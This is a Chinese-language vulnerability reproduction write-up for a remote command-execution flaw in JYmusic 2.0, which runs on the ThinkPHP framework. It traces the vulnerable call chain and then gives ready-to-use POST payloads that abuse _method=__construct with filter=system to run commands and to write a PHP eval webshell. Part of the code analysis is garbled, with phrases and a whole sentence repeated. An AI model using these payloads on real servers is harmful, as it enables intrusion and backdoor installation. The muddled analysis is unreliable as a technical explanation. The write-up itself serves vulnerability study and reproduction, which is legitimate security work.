






（CNVD-2019-06251）JYmusic 2.0 命令执行漏洞
===========================================

一、漏洞简介
------------

CNVD-2019-06251

二、漏洞影响
------------

三、复现过程
------------

### 漏洞分析

#### 危险函数

/core/library/think/Request.php类中的filterValue函数中，使用了call\_user\_func函数。

通过构造使得\$filter=system， \$value=dir
，通过call\_user\_func函数即可执行系统命令" dir "。

#### array\_walk\_recursive函数

/core/library/think/Request.php类中的input函数里调用了通过array\_walk\_recursive函数调用了filterValue函数。array\_walk\_recursive()
函数对数组中的每个元素应用用户自定义函数。

#### input函数

/core/library/think/Request.php中的param函数调用了input函数。

#### exec 函数

/core/library/think/App.php类中的exec
函数通过Request::instance()-\>param()调用了param函数。

#### run函数

/core/library/think/App.php类中的run函数则调用了exec函数

传入的dispatch和dispatch和dispatch和config两个参数分别来自于/core/library/think/App.php类中run函数里的：

#### 变量覆盖

/core/library/think/App.php类中run函数里，获取dispatch变量值时调用了routeCheck函数。routeCheck函数中则通过Route::chekc调用了check函数。/core/library/think/Route.php类中，check函数通过dispatch变量值时调用了routeCheck函数。routeCheck函数中则通过Route::chekc调用了check函数。/core/library/think/Route.php类中，check函数通过dispatch变量值时调用了routeCheck函数。routeCheck函数中则通过Route::chekc调用了check函数。/core/library/think/Route.php类中，check函数通过request-\>method()调用了method函数。

/core/library/think/Request.php类中，通过post参数\_method=\_\_construct调用构造函数：

在构造函数里用filter=system覆盖类中的filter变量。

post参数 method=GET
就是要再次调用method函数，并且使得if(true===\$method)为真，从而获取
\_SERVER\[REQUEST\_METHOD\]=dir 这个参数值。

#### 调用入口

/core/library/think/App.php类中的run函数，则是在index.php入口函数中调用。

### 漏洞复现

#### 拦截首页请求，Change request method修改请求方式为POST

#### 参数：

POST的参数的作用已在漏洞分析环节分析。
filter=system&\_SERVER\[REQUEST\_METHOD\]=dir&\_method=\_\_construct&method=GET
POST参数后不能有\\r\\n回车换行，如果有就不能成功执行。 POST /captcha
HTTP/1.1 //请求一个验证码，引导程序的运行步骤。

#### 写入shell

    filter=system&_SERVER[REQUEST_METHOD]=echo “<?php @eval($_GET["test"]) ?>” >test.php&_method=__construct&method=GET

#### phpinfo()

    http://0-sec.org/test.php?test=phpinfo(); 

    //末尾一定要跟一个“分号” “ ; ” ，如果没有则不能成功执行。

四、参考链接
------------

> <https://blog.csdn.net/yun2diao/article/details/91345116>
